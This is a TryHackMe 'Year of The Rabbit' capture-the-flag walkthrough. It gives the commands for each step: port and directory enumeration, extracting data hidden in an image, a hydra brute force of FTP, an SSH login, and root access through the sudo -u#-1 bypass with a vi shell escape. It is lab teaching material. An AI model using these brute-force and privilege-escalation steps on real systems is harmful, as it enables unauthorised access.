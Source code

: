 # Year of The Rabbit
    ~ https://tryhackme.com/room/yearoftherabbit

* ### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* ### Assuming that your are using Attack-box or conntected to VPN. If not, do refer to [vpn_connection](https://github.com/shybu9/TRY-HACK-ME/tree/main/OPEN-VPN-CONNECTION "OPEN VPN CONNECTION")
*  ### Do follow this page through out the line to void confusion.

<br>

 ![rabbit intro](https://user-images.githubusercontent.com/112984045/200450627-fcc3ffa8-4e3c-4bde-9530-2cdb6acfbf7b.png)
~ the IP will be given once you join the room and Start Machine succefully after connecting to OPEN-VPN
 
 ## ENUMERATION :

 * For ENUMERATION we use nmap tool which comes by default in kali linux.
 <br>command : 
 ```bash
 nmap -sVC -T4 -v <IP> 
 ```
 ![rabbit nmap](https://user-images.githubusercontent.com/112984045/200450896-f5d9f661-a182-4d23-a6bd-ac86ea7ebce7.png)
 <br>~ we can add -v argument for more verbose output.
 
 * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shybu9/port-Scanner)
![rabbit portscanner](https://user-images.githubusercontent.com/112984045/200451032-97c2aa8e-2ace-4a73-8c87-d8280bfd5bee.png)<br>
 ~ I prefer this tool because of its speed as you can see it just took 858 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 3
 * PORT NUMBERS : 21,22,80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 21 : ftp
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 * As the port 80 is open lets have a look on web pages using IP
 ```bash
 http://<IP>
 ```
 
 <br>
 
 ```bash
 gobuster dir -u http://10.10.118.215/ --no-error -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o commongobu.txt
 ```
 ![rabbit gobuster](https://user-images.githubusercontent.com/112984045/200460412-5d6f4312-86ab-4372-805f-7875f79515a0.png)
 <br>
 
 ```bash
 http://<IP>/assets/
 ```
 ![rabbit assets](https://user-images.githubusercontent.com/112984045/200452670-15edf2c8-84b6-4285-8e6b-897f3983ab95.png)
 <br>
 
```bash
http://<IP>/assets/style.css
```
![rabbit assets css](https://user-images.githubusercontent.com/112984045/200698012-0eaba1c0-3685-4bab-80dc-45f8d3b7c629.png)
<br>

```bash
http://<IP>/< directory name in style.css >
```
` use the burp.. to check the response.`
![rabbit burp](https://user-images.githubusercontent.com/112984045/200702406-47239f73-313c-4ad4-8b47-85ee21b0b63d.png)
<br>

```bash
http://<ip>/< hidden directory name found in burp response >
```
![rabbit wexy](https://user-images.githubusercontent.com/112984045/200703653-2c5b4901-690a-4074-8aaa-bf80b340d397.png)
<br>

` copy the hot_bae image link and use the command :`
```bash
wget < link of image >
```
![rabbit wget](https://user-images.githubusercontent.com/112984045/200704376-4cd96a1f-c1cc-4678-ab41-28fe2391697d.png)
<br>

```bash
binwalk Hot_Babe.png 
```
```bash
sudo binwalk -e Hot_Babe.png --run-as=root
```
![rabbit binwalk](https://user-images.githubusercontent.com/112984045/200704812-9f351144-17c9-4001-acee-49013321a323.png)
<br>

```bash
cd _Hot_Babe.png.extracted
```
<br>

` use external web to extract the files in 36.zlib`[web](https://filext.com/file-extension/ZLIB)
![rabbit zlib extract](https://user-images.githubusercontent.com/112984045/200705317-7736006e-7870-40b1-b56b-9e52983bdabf.png)
<br>

```bash
hydra -l < username extracted > -P < list of passwords extracted > ftp://<IP>
```
` don't forget remove spaces from the password list`
![rabbit hydra ftp](https://user-images.githubusercontent.com/112984045/200705605-f4b8f8c1-ae57-4ce1-89cf-87aa30af85b5.png)
<br>

```bash
ftp <IP>
```
![rabbit ftplogin](https://user-images.githubusercontent.com/112984045/200706000-512cd4b9-0773-46c3-b4bc-93dd6b340b72.png)
<br>

```bash
get Eli's_Creds.txt
```
<br>

` terminate the ftp connection using ctrl+d `

` the code in Eli's_Creds.txt was a brainfuck programming language which is really good at its name `
* use [web](https://www.tutorialspoint.com/execute_brainfk_online.php) to execute the program.

![rabbit brainfuck](https://user-images.githubusercontent.com/112984045/200707694-ce3ff23b-2b5a-42f1-9292-81eea695481c.png)
<br>

```bash
ssh <username from brainfuck execution>@<IP>
```
![rabbit ssh login](https://user-images.githubusercontent.com/112984045/200711363-8062ba83-b659-4c0c-92b5-3f1302550815.png)
<br>

` look at the msg given to gwendoline from root. His is talking about a file 's3cr3t'.` <br>
` move to home directory and search for s3cr3t`
```bash
locate s3cr3t
```
![rabbit ssh secret](https://user-images.githubusercontent.com/112984045/200848335-8d3529c5-945b-4c0a-80b1-54a491112433.png)
<br>

```bash
su gwendoline
```
`look for user.txt and submit the flag`
![rabbit usrflag](https://user-images.githubusercontent.com/112984045/200849217-99aec744-f0a5-4196-b468-af46f3fe5bb8.png)
<br>

## PRIVILEGE ESCALATION

```bash
sudo -l
```
* the user gwendoline has rights to execute vi command but not as root.
```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
* use the command `:!/bin/bash` in the editor.
![rabbit root](https://user-images.githubusercontent.com/112984045/200851195-4b9b99f2-97a8-4558-ac5d-c84d3ad346de.png)

### ` do submit the flag to complete the task`

<br>

### FOR ANY DOUBTS OR SUGGESTIONS DO WRITE TO shy.bu9@gmail.com
